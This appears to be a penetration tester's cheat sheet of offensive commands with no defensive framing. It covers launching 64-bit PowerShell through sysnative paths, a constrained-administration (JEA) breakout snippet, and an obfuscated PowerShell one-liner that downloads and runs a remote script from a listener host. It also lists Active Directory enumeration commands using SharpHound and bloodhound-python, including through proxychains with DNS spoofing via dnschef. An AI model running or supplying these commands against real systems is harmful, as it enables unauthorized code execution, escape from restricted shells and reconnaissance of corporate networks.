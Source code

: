 ## PowerShell Call 64 bit - 1
```
%SystemRoot%\sysnative\WindowsPowerShell\v1.0\powershell.exe
```

## PowerShell Call 64 bit - 2
```
Environ("COMSPEC") & " /k c:\windows\sysnative\windowspowershell\v1.0\powershell.exe
```

## PowerShell Call 64 bit - 3
```
&"$env:windir\Sysnative\WindowsPowerShell\v1.0\powershell.exe"
```

## Break out JEA
https://infra.newerasec.com/infrastructure-testing/breakout/just-enough-administration-jea
```
&{ <cmd> }
```

## Exec remote ps1 (PowerShell)
```
powershell i`e`x(iWr -UsEbaSIcparSING http://<listen_ip>:<listen_port>/<filename>);
```

# BloodHound

## SharpHound PowerShell
```
Invoke-BloodHound -collectionmethod all -domain <domain> -OutputDirectory (Get-Location) -SearchForest
```

##  bloodhound-python
```
bloodhound-python -u <username> -p '<password>' -ns <NS_IP> -d <domain> -c all
```

## bloodhound-python with proxychains
```
proxychains bloodhound-python --zip -k -no-pass -u '<USERNAME>' -d <DOMAIN>  -c all -dc <DC-HOSTNAME> -ns <DNS_IP> --dns-tcp --dns-timeout 20
```

## bloodhound-python with proxychains & dnschief
```
python3 dnschef.py --fakeip <DC_IP> --fakedomains <domain>
proxychains bloodhound-python --zip -k -no-pass -u '<USERNAME>' -d <DOMAIN>  -c all -dc <DC-HOSTNAME> -ns 127.0.0.1
```
